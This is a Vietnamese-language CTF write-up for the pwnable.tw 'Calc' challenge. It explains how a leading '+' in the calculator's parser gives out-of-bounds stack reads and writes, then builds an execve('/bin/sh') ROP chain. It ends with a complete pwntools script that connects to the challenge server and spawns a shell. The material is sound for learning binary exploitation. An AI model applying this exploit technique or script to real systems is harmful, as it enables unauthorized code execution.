



# pwnable.tw - Calc

# 1. Xem thông tin file

Ta sẽ dùng lệnh `file` để xem thông tin file challenge:
```
calc: ELF 32-bit LSB executable, Intel 80386, version 1 (GNU/Linux), statically linked, for GNU/Linux 2.6.24, BuildID[sha1]=26cd6e85abb708b115d4526bcce2ea6db8a80c64, not stripped

```
Đây là file 32-bit không bị ẩn tên hàm. Kế đến, ta sẽ kiểm tra security của file:
```
Arch:     i386-32-little
RELRO:    Partial RELRO
Stack:    Canary found
NX:       NX enabled
PIE:      No PIE (0x8048000)
```

Tiếp đến đưa file vào ida-32bit



# 2. Ý tưởng

- Hàm `bzero(s, 1024u)` sẽ gán 0 cho tất cả giá trị của mảng `s`

- Hàm `get_expr((int)s, 1024)` 


Ở đây hàm này sẽ lấy tất cả các ký tự trong khoảng `0-9` và `+-*/%` của mảng `s` và lưu lại tại mảng `s` này.

Hàm này trả về giá trị `v5` là số lượng ký tự ở trên thỏa mãn

- Hàm `init_pool(v1)` 


Ở đây hàm này gán giá trị `0` cho tất cả các phần tử của mảng `v1`

Oke, vậy đã xong những hàm đơn giản nhất. Kế đến là một hàm quan trọng của chương trình!

- Hàm `parse_expr((int)s, v1)`

Ở đây có nhiều hàm check lỗi

* Đầu tiên: Lỗi nếu có 1 tham số bằng 0


`if ( (unsigned int)(*(char *)(i + a1) - 48) > 9 )`

Ở đây nếu các ký tự thuộc `+-*/%` thì sẽ lưu số đằng sau dấu đó vào biến s1 (`s1 = (char *)malloc(v7 + 1)`) và nếu nó = `0`

-> `prevent division by zero`


Còn nếu không thuộc các ký tự trên thì sẽ chuyển đổi giá trị sang int và lưu vào `v1[v3++]`

* Kế đến: Lỗi nếu kết thúc bằng 1 ký tự thuộc `+-*/%`



Ở đây nó sẽ so sánh 2 ký tự liền kề nhau của mảng `s[1024]`  nếu đều không phải là số thì sẽ gây lỗi 

-> `expression error!`



Hàm `eval()` còn lại dùng để tính toán biểu thức

* Khi đã check dấu lặp, dấu ở cuối, `0` ta nhận ra vẫn còn trường hợp với dấu ở đầu thì sao?

Test: 


Khi test các trường hợp với dấu ở đầu, với trường hợp `+400` ta nhận được giá trị `-6727460` = `0xFF9958DC` nó giống như 1 địa chỉ của stack

Địa chỉ lưu trữ 400 trong stack


Ta sẽ thấy địa chỉ leak được sẽ cách địa chỉ trên 400*4 bytes

=> Ta sẽ leak được địa chỉ libc bằng cách này

Kế đến làm sao để thay đổi giá trị tại địa chỉ?


Do ta đã thêm biểu thức `+` vào nên chương trình đã tính toán và lưu vào địa chỉ đó.

Ok vậy là leak được địa chỉ + thay đổi địa chỉ 

-> `ROP chain`

# 3. Khai thác

Ở đây do không kiếm được hàm system nên mình sẽ setup các thanh ghi để gọi `execve`

Mình có kiếm được 3 gadget đó là: 

```
pop_eax = 0x0805c34b
pop_edx_ecx_ebx = 0x080701d0
int_0x80 = 0x08049a21
```

Chúng ta sẽ setup giá trị các thanh ghi lần lượt như sau:
```
eax = 0xb
ebx = địa chỉ của `/bin/sh`
ecx, edx = 0
```


Do ở đây ebp theo như tính toán ở trên thì ta sẽ chạm đến địa chỉ `ebp` với offset là `360`

Và với địa chỉ ebp leak được ta sẽ tính toán được địa chỉ ghi chuỗi `/bin/sh`

Phần còn lại là rop_chain ta chỉnh sửa được với phương pháp sau:

`+360` 		-> Đến địa chỉ offset `360`

`+360+x` 	-> Sửa đổi giá trị tại offset 360 tăng thêm x đơn vị

- Ở đây lưu ý:


Khi ta `+x` thì giá trị của x sẽ lưu vào ngay sau địa chỉ ta vừa sửa đổi

nên ta có thể tự tính toán mà không cần leak địa chỉ nữa (sau n lần thử thì mình rút ra được như vậy)!

Oke! rop_chain mình sẽ làm như sau:

```
pop_eax
b
```
-> setup eax = 0xb

```
pop_edx_ecx_ebx
0
0 
address_of_binsh
```
-> setup edx = ecx = 0, ebx = address_of_binsh

```
int_0x80
```
-> Chạy execve khi setup xong thanh ghi

Ở đây do địa chỉ leak được là địa chỉ ở ngay sau `int_0x80` nên ta sẽ viết chuỗi `/bin/sh` tại đây

```
/bin
/sh\x00
```

Còn 1 cái nho nhỏ khi ta muốn sửa giá trị: Khi giá trị quá lớn vd: 0xffxxxxxx, ta sẽ trừ cho giá trị âm vì `0xffffffff = -1`

0k cat_flag thôi:


# Full code:

```
#!/usr/bin/python3
from pwn import *

elf = context.binary = ELF("calc")
libc = elf.libc

local = False 
if local:
    p = process("./calc")
    gdb.attach(p,'''
    b*calc+152   
    c
    c
    c
    c
    c
    c
    c
    c
    c
    
    ''')
else:
    p = remote('chall.pwnable.tw', 10100)

elf = context.binary = ELF('./calc', checksec=False)


pop_eax = 0x0805c34b
pop_edx_ecx_ebx = 0x080701d0
int_0x80 = 0x08049a21


p.recvuntil(b"=== Welcome to SECPROG calculator ===")
p.recvline()
print("==============================================")

def form(addr, value, value2):
    print("[+]Value of this addr: ", hex(value2))
    print("[+]Change to value: ", hex(value))
    print("[+]Calculate: ", value-value2)
    if (value > value2):
        payload = addr.decode() + "+" + str(value - value2)
    else:
        payload = addr.decode() + str(value - value2)
    # Encode payload to bytes using UTF-8 encoding
    payload = payload.encode('utf-8')
    print(payload)
    p.sendline(payload)
    print("Done")
    print("==============================================")


payload = b"+360"
p.sendline(payload)
leak_binsh = int(p.recvline().strip())
if (leak_binsh < 0):
    leak_binsh = 0xffffffff + leak_binsh + 1
# Convert string to integer
print("[+]/bin/sh addr: ", hex(leak_binsh))
print("==============================================")

payload = "+361"
p.sendline(payload)
leak = int(p.recvline().strip())
if (leak < 0):
    leak = 0xffffffff + leak + 1
# Convert string to integer
print("[+]leak addr 361: ", hex(leak))
leak_361 = leak
print("==============================================")


form(b"+361", pop_eax, leak_361)
#form(b"+362", 0xb, leak_362)
payload = b"+362-77490+11"
p.sendline(payload)
#form(b"+363", pop_edx_ecx_ebx, leak_363)
payload = b"+363-11+134676944"
p.sendline(payload)
#form(b"+364", 0x0, leak_364)
payload = b"+364-134676944"
p.sendline(payload)
#form(b"+365", 0x0, leak_365)
payload = b"+365-134676944"
p.sendline(payload)
#form(b"+366", leak_binsh, leak_366)
# Convert integer to bytes

leak_binsh_bytes = str(0xffffffff-leak_binsh+134676945).encode('utf-8')
payload = b"+366-" + leak_binsh_bytes
p.sendline(payload)
print(payload)
#form(b"+367", int_0x80, leak_367)
# Convert integers to bytes
leak_binsh_bytes = str(0xffffffff-leak_binsh+134676945).encode('utf-8')
int_0x80_bytes = str(int_0x80).encode('utf-8')

# Concatenate byte strings
payload = b"+367-" + leak_binsh_bytes + b"+" + int_0x80_bytes

p.sendline(payload)
#form(b"+368", 0x6e69622f, leak_368)
payload = b"+368+1717880846"
p.sendline(payload)
#form(b"+369", 0x68732f, leak_369)
payload = b"+369-1711035615"

p.sendline(payload)
p.interactive()

```


